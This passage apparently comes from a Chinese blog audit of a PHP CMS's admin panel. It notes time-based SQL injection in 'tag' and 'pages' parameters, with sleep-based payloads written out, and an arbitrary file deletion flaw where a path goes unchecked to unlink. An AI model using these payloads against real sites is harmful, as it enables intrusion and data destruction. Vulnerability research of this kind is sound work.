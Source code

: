 ![](https://img-blog.csdnimg.cn/20210709144649669.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
跟进函数

![](https://img-blog.csdnimg.cn/20210709144704255.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
Payload:
```
tag[7 and if(2>1,sleep(5),1)]=1&token=e219a5d97a9e52275accddc25b30b390
```



## /admin/navbar.php
![](https://img-blog.csdnimg.cn/20210709144812541.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

跟进函数

![](https://img-blog.csdnimg.cn/20210709144824174.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
Payload: 
```
pages[3 and if(2>1,sleep(5),1)]=1&token=e219a5d97a9e52275accddc25b30b390
```



## 备份数据库
![](https://img-blog.csdnimg.cn/20210709145043554.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
先备份出来一份数据库，再修改后导入到数据库

![](https://img-blog.csdnimg.cn/20210709145059179.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
![](https://img-blog.csdnimg.cn/20210709145106809.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# 任意文件删除

## 删除数据备份处


![](https://img-blog.csdnimg.cn/20210709145147294.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
抓包：

![](https://img-blog.csdnimg.cn/20210709145159651.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
明显一个路径拼接

定位函数：/admin/data.php

![](https://img-blog.csdnimg.cn/2021070914521995.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
无处理，直接unlink

